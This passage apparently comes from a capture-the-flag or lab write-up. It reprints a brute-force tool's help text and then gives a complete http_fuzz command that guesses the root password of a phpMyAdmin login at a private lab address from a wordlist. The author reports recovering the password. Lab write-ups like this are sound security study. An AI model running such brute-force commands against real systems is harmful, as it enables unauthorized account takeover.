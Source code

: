 ``` 

Syntax:
 -x actions:conditions

    actions    := action[,action]*
    action     := "ignore" | "retry" | "free" | "quit" | "reset"
    conditions := condition=value[,condition=value]*
    condition  := "code" | "size" | "time" | "mesg" | "fgrep" | "egrep" | "clen"

    ignore      : do not report
    retry       : try payload again
    free        : dismiss future similar payloads
    quit        : terminate execution now
    reset       : close current connection in order to reconnect next time

    code        : match status code
    size        : match size (N or N-M or N- or -N)
    time        : match time (N or N-M or N- or -N)
    mesg        : match message
    fgrep       : search for string in mesg
    egrep       : search for regex in mesg
    clen        : match Content-Length header (N or N-M or N- or -N)

For example, to ignore all redirects to the home page:
... -x ignore:code=302,fgrep='Location: /home.html'

 -e tag:encoding

    tag        := any unique string (eg. T@G or _@@_ or ...)
    encoding   := "url" | "sha1" | "md5" | "hex" | "b64"

    url         : url encode
    sha1        : hash in sha1
    md5         : hash in md5
    hex         : encode in hexadecimal
    b64         : encode in base64

For example, to encode every password in base64:
... host=10.0.0.1 user=admin password=_@@_FILE0_@@_ -e _@@_:b64

Please read the README inside for more examples and usage information.
```

Luckily, on the Github page there is an example of phpmyadmin bruteforcing that I could adapt:

``` 
http_fuzz url=http://192.168.217.128/phpmyadmin/index.php method=POST body='pma_username=root&pma_password=FILE0&server=1&lang=en' 0=~/Desktop/rootpass.txt follow=1 accept_cookie=1 -x ignore:fgrep='Cannot log in to the MySQL server'
```

And we have the password!
